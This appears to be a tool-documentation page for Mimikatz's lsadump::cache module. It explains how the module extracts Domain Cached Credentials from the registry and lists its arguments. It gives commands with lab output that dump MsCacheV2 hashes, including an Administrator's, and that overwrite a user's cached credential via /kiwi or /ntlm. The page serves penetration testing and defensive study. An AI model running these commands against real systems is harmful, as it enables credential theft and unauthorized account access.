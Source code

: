 # cache

`lsadump::cache` can be used to enumerate Domain Cached Credentials from registry. It does so by acquiring the `SysKey` to decrypt `NL$KM` (binary protected value) and then `MSCache(v1/v2)`.

The registry key for the Domain Cached Credentials is `HKEY_LOCAL_MACHINE\SECURITY\Cache`

The number of cached entries is defined in `CachedLogonCount` in `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`

It has the following command line arguments:

* `/sam`: the SAM hive
* `/system`: The SYSTEM hive
* `/security`: The SECURITY hive
* `/user`: An existing username to modify the cached credentials
* `/password`: The new password of the specified user
* `/dcc`: The MS-Cache hash to be replaced
* `/ntlm`: The NTLM hash which will calculate the MS-Cache
* `/kiwi`: [Undocumented parameter](https://security.stackexchange.com/questions/182986/replacing-cached-domain-credentials-in-security-hive/185531#185531) which modifies the user's cached password to **mimikatz**
* `/subject`: The subject's certificate name. This name must conform to the X.500 standard. The simplest method is to specify the name in double quotes, preceded by `CN=` (e.g. `CN=myName`) ([more info](https://docs.microsoft.com/en-us/previous-versions/dotnet/netframework-2.0/bfsktky3\(v=vs.80\)?redirectedfrom=MSDN)).

{% hint style="info" %}
LM and NT hashes are used to authenticate accounts using the NTLM protocol. These hashes are often called NTLM hash and many documentations, resources, blogpost and tools mix terms. In this case, "ntlm" refers to the NT hash.

([more information](https://www.thehacker.recipes/ad/movement/ntlm))
{% endhint %}

{% hint style="warning" %}
This command requires elevated privileges (by previously running [privilege::debug](https://tools.thehacker.recipes/mimikatz/modules/privilege/debug) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # lsadump::cache
Domain : WIN10
SysKey : 7e6804db6db0bbc15372ddf840962151

Local name : WIN10 ( S-1-5-21-1604892360-3618202543-1602915806 )
Domain name : hacklab ( S-1-5-21-2725560159-1428537199-2260736313 )
Domain FQDN : hacklab.local

Policy subsystem is : 1.18
LSA Key(s) : 1, default {9b57ea93-9de6-5d50-0497-034513ddc692}
  [00] {9b57ea93-9de6-5d50-0497-034513ddc692} 62dd3714cc6d8e08f2c90bb18d949eb4e7fddb2478342640c5dc78a68d165e05

* Iteration is set to default (10240)

[NL$1 - 10/30/2021 8:53:10 PM]
RID       : 000006c2 (1730)
User      : hacklab\m3g9tr0n
MsCacheV2 : 7d3fb233bff87d75413d2c813df73fec

[NL$2 - 9/26/2021 2:46:02 PM]
RID       : 000001f4 (500)
User      : hacklab\Administrator
MsCacheV2 : fadb59e7f2f9a9bf6557ad4fa09e828f

[NL$3 - 10/18/2021 3:56:38 PM]
RID       : 000006c4 (1732)
User      : hacklab\optimus
MsCacheV2 : 98982877b0b57416d47a9a8f21331536
```

### Modify a DCC with `/kiwi`

```
mimikatz # lsadump::cache /user:hacklab\optimus /kiwi
> User cache replace mode !
  * user     : hacklab\optimus
  * password : mimikatz <-------------------- Default Password
  * ntlm     : 60ba4fcadc466c7a033c178194c03df6

Domain : WIN10
SysKey : 7e6804db6db0bbc15372ddf840962151

Local name : WIN10 ( S-1-5-21-1604892360-3618202543-1602915806 )
Domain name : hacklab ( S-1-5-21-2725560159-1428537199-2260736313 )
Domain FQDN : hacklab.local

...Output Omitted...
```

{% hint style="warning" %}
When changing the cached password for a user, all the related DPAPI data will be affected.
{% endhint %}

### Modify a DCC with `/ntlm`

```
mimikatz # lsadump::cache /user:hacklab\optimus /ntlm:647d6f9b59c899c5fe4dad779522b8c5
> User cache replace mode !
  * user     : hacklab\optimus
  * ntlm     : 647d6f9b59c899c5fe4dad779522b8c5

Domain : WIN10
SysKey : 7e6804db6db0bbc15372ddf840962151
```
